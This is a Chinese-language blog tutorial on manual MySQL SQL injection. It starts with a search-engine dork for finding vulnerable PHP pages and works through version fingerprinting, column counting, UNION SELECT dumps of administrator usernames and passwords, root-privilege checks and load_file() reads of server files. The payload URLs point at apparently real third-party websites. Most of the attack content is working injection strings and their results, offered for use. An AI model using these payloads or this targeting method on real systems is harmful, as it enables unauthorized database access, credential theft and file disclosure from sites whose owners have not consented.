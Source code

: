 ```yaml
---
layout:     post
title:      MySQL手工注入
subtitle:   
date:       2018-07-16
author:     Waldo
header-img: img/post-bg-世界风景名胜2.jpg
catalog: true
tags:
    - web安全 
    
---
```


## 搜索php网站

```
inurl:php?id=
```

## 判断是否存在注入漏洞

例如得到网站:http://www.star-reach.com/gallery.php?id=27

加上and 1=1提交，返回正常：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f7cc715abf592829.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

加上and 1=2提交，返回错误：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-7dfe7fe5df621f17.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

通过上面两个结果就可以确定该网站存在注入漏洞，接下来判断其后台数据库，在目前的数据库系统中，只有MySQL数据库支持/*注释，所以可以利用它来判断后台是否是MySQL，以下试验[http://www.star-reach.com/gallery.php?id=27/*](http://www.star-reach.com/gallery.php?id=27/*) 返回正常，说明后台数据库就是MySQL，但是也要随机 应变。

![image.png](https://upload-images.jianshu.io/upload_images/7216746-082cba34bb70b845.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 判断MySQL数据库的版本

### 为什么要判断MySQL数据库版本？

当然是因为不同的版本对注入的结果会产生很大的影响。在MySQL版本4（包括版本4）新增了一个联合查询（UNION）的功能，比如SQL语句1 UNION SQL语句2，提交之后我们的SQL语句和SQL语句2都会被执行，这个功能使得MySQL发生SQL注入漏洞的危险性大大提高，利用它可以轻易的获取数据库中其他数据表的信息。

### 判断语句

```
and ord(mid(version(),1,1))>51/*

例如：

http://www.star-reach.com/gallery.php?id=27%20and%20ord(mid(version(),1,1))%3E51/*

提交以上语句，返回正常，说明这个数据库版本大于4.0，如果返回错误的话，就说明是小于4,0版本，即不支持UNION 查询。
数据库的version()函数的作用是数据库的版本信息。
ASCII码51代表3，这里的大于3当然就是4.0以上版本啦！
```

## /*!...*/

在MySQL数据库中，有一个其他数据库没有的扩展功能，它可以用/*!...*/这种注释语句来实现各版本功能的兼容。例如通过如下语句测试网站，返回错误，那么几乎可以确定网站后台数据库为MySQL了。

```
http://www.star-reach.com/gallery.php?id=27/*!%20s*/
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-ebcfd4ebca0d4b75.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 定位MySQL版本

```
在URL输入：
/*!30000%20s*/，如果返回错误的话，说明MySQL的版本大于3.0
/*!40000%20s*/，如果返回错误的话，说明MySQL的版本大于4.0
/*!50000%20s*/，如果返回错误的话，说明MySQL的版本大于5.0
/*!50000%20s*/，如果返回正确的话，说明MySQL的版本小于6.0
获得更精确的版本：
/*!50046%20s*/返回正常，说明MySQL版本小于5.0.46
/*!50045%20s*/返回错误页面，说明该MySQL版本为5.0.45
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f78bbef1a0389b90.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![image.png](https://upload-images.jianshu.io/upload_images/7216746-9b72f2e7e3fbe60a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 确定当前数据库的字段数目
### UNION(联合查询)

在利用联合查询(UNION)字段数目时，要求前面的SQL语句和后面的SQL语句2的字段数要相同，否则就会出错。我们可以利用联合查询字段数目不匹配返回错误的这个特性来准确获得查询语句查询的字段数目。我看可以提交```union select 1,1,1,1,1```及其类似的语句，通过不断增加1，当页面返回正确，那么第一个SQL语句1中的字段数目就是union后多少个1的数目。

### order by
利用order by后加数字，MySQL会解释成按照第几列排序，如果查询没有我们提交的数字的那么多页就会返回错误。
```
http://www.star-reach.com/product_list.php?pid=53 order by 6 返回正常
http://www.star-reach.com/product_list.php?pid=53 order by 7 返回错误
说明字段是6个
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-5e91201bf6d0fb6e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![image.png](https://upload-images.jianshu.io/upload_images/7216746-59df845aa4a2f884.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 获得当前数据库的表名 
以《精通脚本黑客》的例子为示例 P165
利用方法: ```union select 字段数 from 表名```
例如：```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin```
返回结果正常，说明admin这个表名存在，而且在页面中还有一些数字。如下图所示。如果不存在就会返回错误页面。可以更换表名来测试其他表名。

![image.png](https://upload-images.jianshu.io/upload_images/7216746-238261d8abbff72f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在上图中，得到几个数字，分别是2、3、4、5、7、9、10，他们的作用是分别代表的第几个字段，更重要的是我们可以用其他的函数或字符代替这些字段。例如我们要查看数据库版本时用到的是version()函数，只要将version()放在上面几个字段中的任何一个就可以得到当前的数据库版本，例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,version(),3,4,5,6,7,8,9,10,11,12,13 from admin``` 那么就会在第二个字段处出现数据库版本的信息；

例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,username,3,4,5,6,7,8,9,10,11,12,13 from admin``` 就可以看到当前管理员的用户名，如下图所示

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f46ee58cabc37c1a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin``` 就暴出了当前管理员的密码，当然这只是admin表中的第一条记录，如下图所示

![image.png](https://upload-images.jianshu.io/upload_images/7216746-cdd4fb6aa6b1258f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 获得表中其它行的记录
通过主键字段获取
```
假设id是主键，获得admin中第二条记录的信息:
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin where id=2
id后面的数字是管理员的编号，是唯一的
```
这个查询其它记录的功能非常的有用，我们也知道现在几乎所有的网站都是经过了MD5加密，如果那个密码设置的很变态的话，我们很难破解。不能被破解，系统又没有如cookie欺骗之类的漏洞，那么我们得到了加密后的密码也是没有用。而我们查询其它的记录，那么就很有可能其它的记录的密码不是很强壮，破解的几率就很大。

## 判断是否是root权限

```
http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(user(),1,1))=114/*
如果返回正确，则说明是root权限
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-69e8123c69c5bc43.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 判断是否具有文件读写的权限
```
and (select count(*) from MySQL.user) > 0
```

## 使用load_file()函数读取文件

注：使用此函数需要就有root权限(超级管理员)
```
读取c:/boot.ini中的信息
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,load_file(0x633A2F626F6F742E696E69),3,4,5,6,7,8,9,10,11,12,13 from admin 
注：0x633A2F626F6F742E696E69是c:/boot.ini的十六进制，使用十六进制可以防止我们提交的数据被PHP转义掉
```
